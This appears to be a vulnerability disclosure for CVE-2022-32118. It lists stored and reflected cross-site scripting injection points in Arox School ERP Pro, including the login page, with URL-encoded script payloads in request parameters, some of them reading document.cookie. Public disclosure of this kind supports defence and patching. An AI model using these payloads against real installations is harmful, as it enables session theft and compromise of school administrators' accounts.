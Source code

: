 # CVE-2022-32118 - Arox-XSS
Stored and Reflected Cross Site Scripting vulnerabilities exist in multiple pages of the Arox School ERP Pro application, including the login page, that allows for arbitrary execution of JavaScript commands. The application has many more parameters affected by Cross Site Scripting but listed below are a sample size.

Stored XSS Vulnerable Pages:

localhost/office_admin/?pid=74&action=dispatchcategoryedit&id=3
dispatchcategory=%3Cscript%3Ealert%28%27XSSDispatchGroupHere%27%29%3C%2Fscript%3E&submit=submit

/office_admin/?pid=32&action=addcategoty&emsg=3
lib_category=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&libcat_desc=Test&AddCategory=Submit

localhost/office_admin/?pid=42&action=addadmin
admin_fname=Test&admin_lname=Test&admin_username=Test&admin_password=Test&admin_password2=Test&admin_email=Test&admin_phoneno=1234567899&adminlevel=%22%3E%3CscrIpt%3Ealert%28%27XSSHiddenHere%27%29%3B%3C%2FscRipt%3E&admin_more=&1_p=1_p&1_1=1_1&1_2=1_2&1_4=1_4&1_3=1_3&2_p=2_p&2_1=2_1&2_2=2_2&2_3=2_3&2_4=2_4&2_5=2_5&2_6=2_6&2_7=2_7&2_8=2_8&2_9=2_9&2_10=2_10&2_11=2_11&2_12=2_12&2_13=2_13&2_14=2_14&2_15=2_15&2_20=2_20&2_18=2_18&2_19=2_19&3_p=3_p&3_1=3_1&3_2=3_2&3_3=3_3&3_5=3_5&3_4=3_4&4_p=4_p&5_p=5_p&5_1=5_1&5_3=5_3&5_2=5_2&5_5=5_5&5_6=5_6&6_p=6_p&7_p=7_p&7_1=7_1&7_2=7_2&7_3=7_3&7_4=7_4&7_5=7_5&8_p=8_p&8_1=8_1&8_2=8_2&8_3=8_3&8_101=8_101&8_4=8_4&8_5=8_5&8_6=8_6&8_16=8_16&8_102=8_102&8_7=8_7&8_8=8_8&8_9=8_9&8_17=8_17&8_103=8_103&8_104=8_104&8_10=8_10&8_11=8_11&8_12=8_12&8_18=8_18&8_105=8_105&8_106=8_106&8_13=8_13&8_14=8_14&8_15=8_15&8_19=8_19&8_107=8_107&8_108=8_108&9_p=9_p&9_1=9_1&9_17=9_17&9_18=9_18&9_19=9_19&9_2=9_2&9_20=9_20&9_21=9_21&9_22=9_22&9_3=9_3&9_4=9_4&9_5=9_5&9_6=9_6&9_101=9_101&9_7=9_7&9_102=9_102&9_8=9_8&9_103=9_103&9_24=9_24&9_25=9_25&9_33=9_33&9_23=9_23&9_11=9_11&9_13=9_13&9_27=9_27&9_14=9_14&9_29=9_29&9_30=9_30&9_31=9_31&9_15=9_15&9_16=9_16&9_32=9_32&10_p=10_p&10_1=10_1&10_2=10_2&10_3=10_3&10_4=10_4&10_5=10_5&10_6=10_6&10_7=10_7&10_8=10_8&10_11=10_11&10_9=10_9&10_10=10_10&10_12=10_12&11_p=11_p&11_1=11_1&11_2=11_2&11_3=11_3&11_4=11_4&11_5=11_5&11_6=11_6&11_7=11_7&11_8=11_8&11_9=11_9&11_10=11_10&11_11=11_11&11_12=11_12&11_13=11_13&11_14=11_14&11_15=11_15&11_16=11_16&11_17=11_17&11_18=11_18&11_19=11_19&11_20=11_20&11_21=11_21&11_23=11_23&11_101=11_101&11_102=11_102&11_22=11_22&11_103=11_103&11_104=11_104&12_p=12_p&12_1=12_1&12_2=12_2&12_3=12_3&12_4=12_4&12_5=12_5&12_11=12_11&12_6=12_6&12_7=12_7&12_8=12_8&12_12=12_12&12_9=12_9&12_10=12_10&13_p=13_p&13_1=13_1&13_2=13_2&13_3=13_3&13_17=13_17&13_4=13_4&13_5=13_5&13_6=13_6&13_18=13_18&13_7=13_7&13_8=13_8&13_9=13_9&13_19=13_19&13_20=13_20&13_10=13_10&13_11=13_11&13_12=13_12&13_21=13_21&13_22=13_22&13_13=13_13&13_14=13_14&13_15=13_15&13_16=13_16&13_108=13_108&13_23=13_23&13_101=13_101&13_102=13_102&13_103=13_103&13_104=13_104&13_106=13_106&13_105=13_105&14_p=14_p&14_1=14_1&14_2=14_2&14_3=14_3&14_101=14_101&14_4=14_4&14_5=14_5&14_6=14_6&14_102=14_102&14_7=14_7&14_8=14_8&14_9=14_9&14_103=14_103&14_10=14_10&14_21=14_21&14_104=14_104&14_11=14_11&14_105=14_105&14_12=14_12&14_106=14_106&14_13=14_13&14_14=14_14&14_15=14_15&14_16=14_16&14_107=14_107&14_17=14_17&14_18=14_18&14_19=14_19&14_20=14_20&15_p=15_p&15_1=15_1&15_2=15_2&15_3=15_3&16_p=16_p&16_1=16_1&16_2=16_2&16_3=16_3&16_101=16_101&16_4=16_4&16_5=16_5&16_6=16_6&16_102=16_102&16_7=16_7&16_8=16_8&16_10=16_10&16_11=16_11&16_12=16_12&16_103=16_103&16_13=16_13&16_14=16_14&16_15=16_15&16_17=16_17&16_18=16_18&16_20=16_20&16_21=16_21&16_24=16_24&16_104=16_104&16_105=16_105&16_22=16_22&16_25=16_25&16_23=16_23&16_26=16_26&16_106=16_106&16_107=16_107&16_27=16_27&16_28=16_28&16_29=16_29&17_p=17_p&17_1=17_1&17_6=17_6&17_2=17_2&17_3=17_3&17_101=17_101&17_4=17_4&17_5=17_5&17_7=17_7&17_8=17_8&17_9=17_9&18_p=18_p&18_5=18_5&18_1=18_1&18_2=18_2&18_3=18_3&18_4=18_4&18_6=18_6&18_7=18_7&18_8=18_8&18_9=18_9&18_10=18_10&18_11=18_11&18_12=18_12&19_p=19_p&19_1=19_1&19_2=19_2&19_3=19_3&19_4=19_4&19_5=19_5&19_6=19_6&19_11=19_11&19_7=19_7&19_12=19_12&19_13=19_13&19_14=19_14&19_15=19_15&19_101=19_101&19_102=19_102&19_8=19_8&19_16=19_16&19_9=19_9&19_10=19_10&19_17=19_17&19_18=19_18&20_p=20_p&20_1=20_1&20_5=20_5&20_101=20_101&20_2=20_2&20_6=20_6&20_102=20_102&20_3=20_3&20_4=20_4&21_p=21_p&21_1=21_1&21_2=21_2&21_3=21_3&22_p=22_p&22_1=22_1&22_2=22_2&22_3=22_3&22_5=22_5&22_4=22_4&22_6=22_6&23_p=23_p&24_p=24_p&24_1=24_1&24_2=24_2&24_3=24_3&24_4=24_4&25_p=25_p&25_1=25_1&25_2=25_2&25_5=25_5&25_6=25_6&25_3=25_3&25_4=25_4&25_7=25_7&25_8=25_8&26_p=26_p&26_1=26_1&26_2=26_2&27_p=27_p&27_1=27_1&27_2=27_2&27_3=27_3&28_p=28_p&28_1=28_1&28_2=28_2&28_3=28_3&28_4=28_4&28_5=28_5&29_p=29_p&29_1=29_1&29_2=29_2&30_p=30_p&30_1=30_1&30_2=30_2&30_3=30_3&30_4=30_4&30_5=30_5&30_6=30_6&30_7=30_7&30_8=30_8&31_p=31_p&31_1=31_1&31_2=31_2&31_3=31_3&31_5=31_5&31_4=31_4&32_p=32_p&32_3=32_3&32_1=32_1&32_4=32_4&32_2=32_2&32_5=32_5&33_p=33_p&33_1=33_1&33_2=33_2&33_3=33_3&33_8=33_8&33_4=33_4&33_5=33_5&33_6=33_6&33_7=33_7&34_p=34_p&34_1=34_1&34_2=34_2&35_p=35_p&35_1=35_1&35_2=35_2&35_3=35_3&saveallowance=Submit


Reflected XSS Vulnerable Pages:

localhost/
username=%22%3E%3Cscript%3Ealert%28%27XSSUsernameHere%27%29%3B%3C%2Fscript%3E&password=&usertype=admin&Login.x=38&Login.y=17
username=&password=%22%3E%3Cscript%3Ealert%28%27XSSPasswordHere%27%29%3B%3C%2Fscript%3E&usertype=admin&Login.x=42&Login.y=14
